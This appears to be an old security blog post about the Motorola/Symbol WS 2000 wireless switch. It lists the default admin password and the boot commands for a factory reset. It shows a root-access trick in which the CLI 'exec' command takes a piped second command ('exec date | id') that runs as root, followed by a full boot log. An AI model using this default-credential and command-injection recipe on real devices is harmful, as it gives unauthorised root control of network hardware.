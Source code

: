```yaml
---
layout: post
title: Motorola /  Symbol Wireless Switch WS 2000
date: !binary |-
  MjAwOS0wNC0yOCAxMjowMToyNiArMDIwMA==
date_gmt: !binary |-
  MjAwOS0wNC0yOCAxMDowMToyNiArMDIwMA==
categories:
- Security
tags: []
comments: []
---
```

<h2>Default password</h2><br />
username: admin
<p>password: symbol
<h2>Reset to factory default</h2><br />
<code>localhost login: NEW CFG BLOCK 0 : VALID<br />
NEW CFG BLOCK 1 : NOT VALID</code>
<p>WS 2000 Boot Firmware Version 2.2.3.0-020R<br />
Copyright(c) Symbol Technologies Inc. 2003. All rights reserved.
<p>Press escape key to run boot firmware ......
<p>boot> help
<p>boot> passwd default symbol<br />
boot> reset config<br />
boot> reset system
<p>resetting ...
<h2>Gain root access</h2><br />
WS 2000 Wireless Switch 2.2.3.0-020R<br />
Copyright (c) Symbol Technologies, Inc. 2003, 2004. All rights reserved.
<p>localhost login: admin<br />
Password:
<p><code>admin>system<br />
admin(system)>exec date | ls -alt /console<br />
drwxr-xr-x 1 root root 512 Jan 1 2003 .<br />
drwxr-xr-x 1 root root 512 Jan 1 2003 ..<br />
lrwxrwxrwx 1 root root 13 Jan 1 2003 arp -> /usr/sbin/arp<br />
lrwxrwxrwx 1 root root 22 Jan 1 2003 ccdiag -> /cellcontroller/ccdiag<br />
lrwxrwxrwx 1 root root 23 Jan 1 2003 ccstats -> /cellcontroller/ccstats<br />
-rwxr-xr-x 1 root root 2062 Jan 1 2003 cformat<br />
-rwxr-xr-x 1 root root 48 Jan 1 2003 cfumount<br />
-r-s--x--x 1 root root 36514 Jan 1 2003 cli<br />
lrwxrwxrwx 1 root root 9 Jan 1 2003 date -> /bin/date<br />
lrwxrwxrwx 1 root root 7 Jan 1 2003 df -> /bin/df<br />
lrwxrwxrwx 1 root root 11 Jan 1 2003 du -> /usr/bin/du<br />
-rwxr-xr-x 1 root root 2788 Jan 1 2003 ftp_cfg.sh<br />
-rwxr-xr-x 1 root root 2361 Jan 1 2003 ftp_core.sh<br />
lrwxrwxrwx 1 root root 14 Jan 1 2003 ifconfig -> /sbin/ifconfig<br />
lrwxrwxrwx 1 root root 12 Jan 1 2003 netstat -> /bin/netstat<br />
lrwxrwxrwx 1 root root 25 Jan 1 2003 peekshmem -> /cellcontroller/peekshmem<br />
lrwxrwxrwx 1 root root 9 Jan 1 2003 ping -> /bin/ping<br />
lrwxrwxrwx 1 root root 17 Jan 1 2003 tcpdump -> /usr/sbin/tcpdump<br />
-rwxr-xr-x 1 root root 2109 Jan 1 2003 tftp_cfg.sh<br />
lrwxrwxrwx 1 root root 20 Jan 1 2003 traceroute -> /usr/sbin/traceroute<br />
admin(system)>exec date | id<br />
uid=0(root) gid=100(users)<br />
</code>
<h2>Boot log</h2><br />
<code><br />
NEW CFG BLOCK 0 : VALID<br />
NEW CFG BLOCK 1 : NOT VALID</code>
<p>WS 2000 Boot Firmware Version 2.2.3.0-020R<br />
Copyright(c) Symbol Technologies Inc. 2003. All rights reserved.
<p>Press escape key to run boot firmware .............
<p>Power On Self Test
<p>testing ram : pass<br />
testing nor flash : pass<br />
testing nand flash : pass<br />
testing ethernet : pass
<p>Loading Linux Kernel<br />
Booting From 0x1160-0000 ...<br />
Uncompressing Linux............................................done.<br />
booting the kernel.<br />
Linux version 2.4.20_mvl31-ixdp4xx (root@mobion) (gcc version 3.3.1 (release/MontaVista 3.1)) #1 Mon June 7 10:00:00 PDT 2004<br />
CPU: XScale-IXP4xx/IXC11xx [690541c1] revision 1 (ARMv5TE)<br />
CPU: D undefined 5 cache<br />
CPU: I cache: 32768 bytes, associativity 32, 32 byte lines, 32 sets<br />
CPU: D cache: 32768 bytes, associativity 32, 32 byte lines, 32 sets<br />
Machine: Intel IXDP425 Development Platform<br />
On node 0 totalpages: 15360<br />
zone(0): 15360 pages.<br />
zone(1): 0 pages.<br />
zone(2): 0 pages.<br />
Kernel command line: mem=61440K console=ttyS1,19200 noinitrd rootflags=0 rootfstype=yaffs root=/dev/mtdblock0<br />
Calibrating delay loop... 532.48 BogoMIPS<br />
Memory: 59284KB available (1160K code, 237K data, 60K init)<br />
XScale cache_lock_init called<br />
Calling consistent alloc<br />
low_level_page initialized<br />
low_level_page @ 0xc4000000<br />
icache_lock_fn @ 0xc4000080<br />
dcache_lock_fn @ 0xc40000a0<br />
icache_unlock_fn @ 0xc4000098<br />
dcache_unlock_fn @ 0xc40000f0<br />
Initializing TLB locking<br />
TLB locking initialized<br />
Mount-cache hash table entries: 1024 (order: 1, 8192 bytes)<br />
Buffer-cache hash table entries: 1024 (order: 0, 4096 bytes)<br />
Page-cache hash table entries: 16384 (order: 4, 65536 bytes)<br />
POSIX conformance testing by UNIFIX<br />
Initializing RT netlink socket<br />
Starting kswapd<br />
Disabling the Out Of Memory Killer<br />
pty: 256 Unix98 ptys configured<br />
Creating 3 MTD partitions on "NAND 64MiB 3,3V":<br />
0x00000000-0x03c00000 : "SPIA flash partition 1"<br />
0x03c00000-0x03fe0000 : "SPIA flash partition 2"<br />
0x03fe0000-0x04000000 : "SPIA flash partition 3"<br />
NetWinder Floating Point Emulator V0.95 (c) 1998-1999 Rebel.com<br />
VFS: Mounted root (yaffs filesystem) readonly.<br />
serial console detected. Disabling virtual terminals.<br />
console=/dev/console<br />
init started: BusyBox v0.60.3 (2004.5.6-12:00 +0000) multi-call binary<br />
Starting pid 9, console /dev/console: '/etc/init.d/rcS'<br />
Activating swap...<br />
Mounting local filesystems...<br />
/dev/shm on /var/log type tmpfs (rw,size=512k)<br />
/dev/mtdblock1 on /save type yaffs (rw)<br />
Initializing random number generator... done.<br />
rm: cannot remove `/var/run/*.pid': No such file or directory<br />
Using cf.o<br />
Starting automount:[ OK ]<br />
Using cfgstat.o<br />
Testing Shadow Flash...passed<br />
Shadow Flash Init Test Passed<br />
Using lnkstat.o<br />
Using /lib/modules/2.4.20_mvl31-ixdp4xx/kernel/drivers/ixp400/ixp400.o<br />
Using throttle.o<br />
Using /lib/modules/2.4.20_mvl31-ixdp4xx/kernel/drivers/net/mobion_eth.o<br />
Initializing IXP425 NPE Ethernet driver software v. 1.1<br />
CPU clock speed (approx) = 532 MHz
<p>Using /lib/modules/2.4.20_mvl31-ixdp4xx/kernel/net/bridge/bridge.o<br />
Using shmemdev.o<br />
Using pktdrvr.o
<p>Starting Apache....<br />
start /apache/httpd<br />
Starting portmap....<br />
Starting inetd....<br />
Loading drivers ...<br />
Using igateway.o<br />
Using dhpktdrv.o<br />
Using drvpppoe.o<br />
Using l2tpdrv.o<br />
Using pptpdrv.o<br />
Using tcpmssmangler.o<br />
Starting iGateway Apps(1)....<br />
Starting iGateway Apps(2)....<br />
Using switch.o<br />
Starting Wireless Switch....<br />
Configuring iGateway....<br />
Creating config files....<br />
Starting SSHD....<br />
Starting snmpd:
<p>Starting keepalived....<br />
Starting Message Handler daemon<br />
Using led.o<br />
Starting pid 366, console /dev/console: '/sbin/agetty'<br />
Starting pid 367, console /dev/console: '/sbin/agetty'
<p>WS 2000 Wireless Switch 2.2.3.0-020R<br />
Copyright (c) Symbol Technologies, Inc. 2003, 2004. All rights reserved.
<p>localhost login: admin<br />
Password:<br />
Password is same as default password, please change the password<br />
Enter new password:<br />
Verify new password:<br />
Authentication tokens updated successfully<br />
Welcome to Symbol Technologies' WS 2000 Wireless Switch
<p>admin>
